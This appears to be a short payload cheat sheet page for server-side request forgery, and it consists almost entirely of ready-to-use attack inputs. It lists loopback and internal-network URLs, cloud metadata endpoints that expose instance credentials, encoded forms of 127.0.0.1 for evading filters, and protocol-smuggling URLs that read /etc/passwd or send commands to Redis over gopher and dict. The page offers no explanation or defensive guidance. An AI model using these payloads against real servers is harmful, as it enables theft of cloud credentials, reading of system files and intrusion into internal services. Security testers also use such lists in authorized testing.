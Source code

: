 ```yaml
---
layout: default
title: SSRF Payloads
---
```


# 🌐 Server-Side Request Forgery (SSRF) Payloads

## Basic SSRF
```
http://localhost
http://127.0.0.1
http://0.0.0.0
http://[::1]
```

## Internal Network
```
http://192.168.1.1
http://10.0.0.1
http://172.16.0.1
http://169.254.169.254
```

## Cloud Metadata
```
http://169.254.169.254/latest/meta-data/
http://metadata.google.internal/computeMetadata/v1/
http://100.100.100.200/latest/meta-data/
```

## Bypass Filters
```
http://127.1
http://0x7f000001
http://2130706433
http://017700000001
```

## Protocol Smuggling
```
file:///etc/passwd
gopher://127.0.0.1:6379/_INFO
dict://127.0.0.1:6379/info
```
